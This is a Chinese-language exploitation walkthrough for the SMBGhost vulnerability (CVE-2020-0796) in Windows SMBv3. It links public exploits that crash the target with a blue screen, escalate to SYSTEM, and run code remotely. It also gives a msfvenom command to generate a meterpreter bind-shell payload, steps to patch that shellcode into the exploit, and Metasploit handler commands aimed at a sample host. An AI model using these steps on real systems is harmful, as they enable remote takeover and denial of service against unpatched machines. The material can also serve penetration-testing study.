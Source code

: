 ![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627103610298-982f6ead-a91f-46c8-85fa-5f69f436f47f.png)

### CVE-2020-0796 目标探测(奇安信)

使用奇安信的漏洞扫描来探测：[奇安信 CVE-2020-0796 扫描下载](http://dl.qianxin.com/skylar6/CVE-2020-0796-Scanner.zip)

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627103611100-9024e27a-d488-4c8c-861e-f791256c65ed.png)

### CVE-2020-0796 蓝屏EXP

运行脚本后目标成功蓝屏：[Github CVE-2020-0796 蓝屏EXP 下载](https://github.com/eerykitty/CVE-2020-0796-PoC)

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627103611063-74ff70af-f1bb-457a-9b0b-5a87d2a86cc4.png)

### CVE-2020-0796 本地提权EXP

运行应用程序后弹出cmd窗口为 system权限：[Github CVE-2020-0796 本地提权EXP 下载](https://github.com/danigargu/CVE-2020-0796)

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627103611077-e1fc15be-d3ea-4036-82f2-5cf7a90f7ea9.png)

或者使用 MSF的内置EXP windows/local/cve_2020_0796_smbghost 来本地提权 

### CVE-2020-0796 RCE EXP

RCE：[Github CVE-2020-0796 RCE EXP](https://github.com/chompie1337/SMBGhost_RCE_PoC)

msfvenom生成reversed shellcode

```
msfvenom -p windows/x64/meterpreter/bind_tcp lport=2333 -f py -o exp.py
```

将生成exp.py中的shellcode替换exploit.py中的shellcode

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627103611172-2054aa5a-50ed-4b22-b507-2e2708bb277b.png)

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1627103611207-6e81b26c-ebc8-4012-a66a-cd4cb919ca53.png)

**buf 要替换为 USER_PAYLOAD**

使用 MSF

```shell
msf5 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf5 exploit(multi/handler) > set lport 2333
lport => 2333
msf5 exploit(multi/handler) > set rhost 192.168.1.110
rhost => 192.168.1.110
msf5 exploit(multi/handler) > exploit
执行脚本即可
python3 exploit.py  -ip 192.168.1.110
```

**注意有蓝屏概率**